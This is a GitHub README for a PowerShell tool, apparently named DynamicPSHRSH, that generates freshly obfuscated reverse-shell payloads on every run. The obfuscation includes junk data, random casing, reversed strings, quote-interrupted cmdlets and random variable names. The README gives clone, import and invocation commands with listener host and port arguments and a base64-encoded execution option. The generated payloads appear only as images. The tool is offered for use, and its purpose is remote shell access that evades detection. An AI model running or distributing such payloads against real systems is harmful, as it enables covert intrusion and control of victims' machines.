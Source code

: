 # DynamicPSHRSH - PS Based RevShell Generator Script
- A nice little PowerShell script I wrote for generating an obfuscated Powershell based reverse-shell. Eachtime the script is ran, a whole new reverse shell with different set of obfuscations is generated.
- The script has inbuilt pre-defined set of obfuscation techniques ranging from :
  - Random junk data
  - Random letter cases
  - Reversed strings
  - Cmdlet obfuscation (Via quote interruption and other techniques to retrieve the original Cmdlet)
  - Randomly generated variable names
  - Object name obfuscation 

![image](https://github.com/user-attachments/assets/2e0ba0a2-c7e1-4538-a879-333f98532cfd)

## Installation :

```
git clone https://github.com/Vedant-Bhalgama/DynamicPSHRSH.git
Import-Module .\DynamicPSHRSHGen.ps1
Invoke-DynamicRSH
```

## Usage : 

```
Dynamic Powershell Reverse Shell Generator v1.0 - By @ActiveXSploit

Usage: Invoke-DynamicRSH -LHOST <L_IP> -LPORT <L_PORT> [-B64Encode or -Raw or Standard]

Required Arguments : 
   -LHOST  :  Specify listening host IP Address/Hostname
   -LPORT  :  Specify listening port number

Positional Arguments :
   -B64Encode  :  Payload execution via the -e switch (Base64 Encoded)
   -Raw        :  Raw reverse shell code template (No encodings + W/O Additional Powershell switches)
   -c          :  Standard execution (No encodings + Additional Powershell switches)
```

## Examples :
  ### 1. Standard Payload Template : 
    Invoke-DynamicRSH -LHOST 127.0.0.1 -LPORT 443 -c
![image](https://github.com/user-attachments/assets/d1a197d7-0024-4d83-b1cd-cfdb08a1ed58)

  ### 2. Base64 Encoded Payload Template :
    Invoke-DynamicRSH -LHOST 127.0.0.1 -LPORT 443 -B64Encode
![image](https://github.com/user-attachments/assets/36de92cc-92d3-4a95-9586-314f0e83ea71)

  ### 3. Raw PowerShell Code Template : 
    Invoke-DynamicRSH -LHOST 127.0.0.1 -LPORT 443 -Raw
![image](https://github.com/user-attachments/assets/eee97999-c295-45a5-b34a-cd185d54318e)
